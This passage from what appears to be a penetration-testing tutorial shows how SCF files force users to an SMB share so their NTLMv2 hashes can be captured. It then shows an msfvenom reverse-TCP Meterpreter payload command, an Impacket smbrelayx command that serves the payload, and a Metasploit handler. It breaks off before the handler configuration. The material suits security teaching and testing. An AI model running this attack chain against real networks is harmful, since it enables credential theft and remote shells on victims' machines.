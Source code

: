As previously when the user will browse the same share his password hash will be captured by Metasploit.

![Metasploit - NTLMv2 Captured](https://pentestlab.files.wordpress.com/2017/12/metasploit-ntlmv2-captured.png?w=760)

Metasploit – NTLMv2 Captured

If the password policy inside the company is sufficient it will take possibly days or weeks for the attacker to crack the captured hash.

## Meterpreter Shells

The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. Therefore it is also possible to combine this technique with SMB relay that will serve a payload in order to retrieve a Meterpreter shell from every user that will access the share.

MSFVenom can be used to generate the payload that it will executed on the target:

1

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=``192.168``.``1.171` `LPORT=``5555` `-f exe > pentestlab.exe`

![MSFVenom - Payload Generation for SMB Relay](https://pentestlab.files.wordpress.com/2017/12/msfvenom-payload-generation-for-smb-relay.png?w=760)

MSFVenom – Payload Generation for SMB Relay

Coresecurity has released a set of python scripts called [Impacket](https://github.com/CoreSecurity/impacket) that can perform various attacks against Windows protocols such as SMB. Using the **smbrelayx** python script it is possible to set up and SMB server that will serve a payload when the target host will try to connect. This will performed automatically since the SCF file will enforce every to user to connect to a non-existing share with their credentials.

1

`./smbrelayx.py -h Target-IP -e ./pentestlab.exe`

![Impacket - SMB Relay Server](https://pentestlab.files.wordpress.com/2017/12/impacket-smb-relay-server.png?w=760)

Impacket – SMB Relay Server

Metasploit Framework needs to be used as well in order to receive back the connection upon execution of the pentestlab.exe on the target.

1

`exploit/multi/handler`

The module needs to be configured with the same parameters as the generated payload.

1

2

3

4
